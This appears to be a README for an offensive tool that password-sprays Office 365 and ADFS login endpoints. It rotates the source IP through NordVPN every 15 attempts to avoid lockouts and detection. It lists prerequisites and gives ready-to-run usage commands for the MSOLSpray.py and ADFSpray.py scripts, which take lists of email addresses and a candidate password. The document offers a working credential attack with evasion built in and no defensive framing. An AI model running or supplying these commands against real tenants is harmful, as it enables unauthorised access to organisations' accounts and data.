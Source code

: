 # Password spraying O365/ADFS with IP rotation (NordVPN)
Password spraying O365/ADFS with IP rotation (nordvpn) every 15 attempts

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login --username '<mail>' --password '<pass>'
```
* Python packages
```bash
pip3 install -r requirements.txt
```
## Managed tenant
### Usage
```bash
sudo python3 MSOLSpray.py -u '<path/to/mail/file>' -s 2 -p '<pass>' -o result.txt --vpn
```

## ADFS
### Usage
```bash
sudo python3 ADFSpray.py -U '<path/to/mail/file>' -r 1 3 -p '<pass>' -t https://<adfs.tenant.com> adfs -V -o result.txt --vpn
```
